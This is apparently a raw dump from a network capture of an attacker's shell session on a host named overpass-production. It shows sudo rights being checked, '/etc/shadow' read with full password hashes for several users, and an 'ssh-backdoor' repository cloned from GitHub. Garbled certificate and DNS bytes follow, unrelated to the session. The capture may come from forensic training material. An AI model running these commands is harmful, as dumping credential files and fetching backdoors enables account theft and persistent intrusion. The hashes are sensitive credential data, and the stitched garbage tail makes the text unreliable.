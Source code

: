     env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User james may run the following commands on overpass-production:
    (ALL : ALL) ALL
james@overpass-production:~$ 
sudo cat /etc/shadow
sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
james@overpass-production:~$ 
git clone https://github.com/NinjaJc01/ssh-backdoor
<git clone https://github.com/NinjaJc01/ssh-backdoor
!Cloning into 'ssh-backdoor'...
ns-1707	awsdns-21
awsdns-hostmaster
www.digicert.com1/0-
&DigiCert SHA2 High Assurance Server CA0
220510120000Z0f1
.http://crl3.digicert.com/sha2-ha-server-g6.crl04
.http://crl4.digicert.com/sha2-ha-server-g6.crl0L
https://www.digicert.com/CPS0
http://ocsp.digicert.com0M
Ahttp://cacerts.digicert.com/DigiCertSHA2HighAssuranceServerCA.crt0
www.digicert.com1+0)
"DigiCert High Assurance EV Root CA0
281022120000Z0p1
www.digicert.com1/0-